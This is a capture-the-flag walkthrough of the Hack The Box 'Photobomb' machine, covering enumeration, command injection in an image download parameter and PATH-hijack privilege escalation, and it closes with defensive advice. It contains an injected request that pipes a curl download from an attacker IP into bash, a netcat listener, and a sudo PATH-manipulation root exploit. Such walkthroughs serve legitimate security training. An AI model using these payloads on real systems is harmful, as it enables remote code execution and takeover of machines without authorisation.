# HTB - Photobomb

**IP Address:** `10.10.11.182`  
**OS:** Ubuntu Focal  
**Difficulty:** Easy  
**Tags:** #Web, #CommandInjection, #BurpSuite, #ReverseShell, #Sudo, #PathHijacking  

---
## Synopsis

Photobomb is an easy Linux machine that demonstrates a real-world **Command Injection** vulnerability in a photo processing web application.  
By intercepting the request parameters, it is possible to inject arbitrary commands and gain remote code execution.  
Privilege escalation is achieved by exploiting a misconfigured **cleanup.sh** script and performing **PATH Hijacking** to gain root privileges.

---
## Skills Required

- Basic Linux command-line usage  
- Web enumeration and source code review  
- Familiarity with BurpSuite request interception  

## Skills Learned

- Exploiting **command injection** in a web application  
- Crafting payloads for reverse shells using curl and bash  
- Escalating privileges via **PATH Hijacking** with crafted binaries  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Verify if the host is alive:

```bash
ping -c 1 10.10.11.182
```



---
### 1.2 Port Scanning

Perform a full TCP port scan:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.182 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format



Extract open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan with service detection:

```bash
nmap -p22,80 -sC -sV 10.10.11.182 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```



**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 22   | SSH     | OpenSSH (Ubuntu Focal) |
| 80   | HTTP    | Apache2 (Custom Web App) |

A web application is hosted under the domain `photobomb.htb`.

---
## 2. Web Enumeration

### 2.1 Technology Fingerprinting

The OS version is identified as **Ubuntu Focal** from Launchpad.



Fingerprinting the web server with WhatWeb:

```bash
whatweb http://10.10.11.182
```



### 2.2 Website Analysis

Browsing the website:



The **Click here!** button requests credentials:



If cancelled:



It redirects to `/printer` but denies access due to missing credentials.

Inspecting the source code:



Reveals a `photobomb.js` file:



Credentials found:

```
pH0t0:b0Mb!
```

Login succeeds:



### 2.3 Functionality

The web offers a gallery with options to select filetype and dimensions for download:



Downloaded file viewed with Kitty terminal:

```bash
kitty +kitten icat test.jpg
```



Image resizing suggests a backend conversion process, similar to `convert`:

```bash
convert test.jpg -resize 500x500 new.jpg
```



---
## 3. Exploitation

### 3.1 Command Injection

Intercepting the request in BurpSuite and injecting payloads.  
Only the `filetype` parameter is vulnerable.

A test with `;sleep+5` delays the request, confirming injection. 
Verifying with:

```
;curl+10.10.14.10
```



A callback is received, confirming execution.

### 3.2 Reverse Shell

Create a malicious `index.html` containing a bash reverse shell payload:



Modify the request:

```bash
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;curl+10.10.14.10|bash&dimensions=600x400
```

Start a listener:

```bash
nc -lvnp 443
```

Send the request:



Reverse shell obtained.

---
## 4. Foothold

Confirming access and retrieving the user flag:



✅ **User flag obtained**

---
## 5. Privilege Escalation

### 5.1 Sudo Permissions

Check sudo privileges:

```bash
sudo -l
```



User can execute `/opt/cleanup.sh`.

Inspect the script:



It incorrectly uses `[` without absolute path, making it exploitable.



### 5.2 PATH Hijacking

Create a malicious `[` binary in `/tmp`:

```bash
touch [
chmod +x [
nano [
```



Contents of file:

```bash
bash
```

Execute the script with manipulated PATH:

```bash
sudo PATH=/tmp:$PATH /opt/cleanup.sh 
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Web Enumeration** → Found `photobomb.js` containing credentials.  
2. **Command Injection** → Exploited vulnerable `filetype` parameter in download request.  
3. **Reverse Shell** → Gained foothold with injected payload.  
4. **Privilege Escalation** → Abused PATH Hijacking in `cleanup.sh` to gain root.

---
## Defensive Recommendations

- Sanitize and validate all user inputs in web applications.  
- Avoid passing user-controlled parameters to system commands.  
- Use absolute paths in scripts to prevent PATH Hijacking.  
- Implement principle of least privilege for sudoers.  
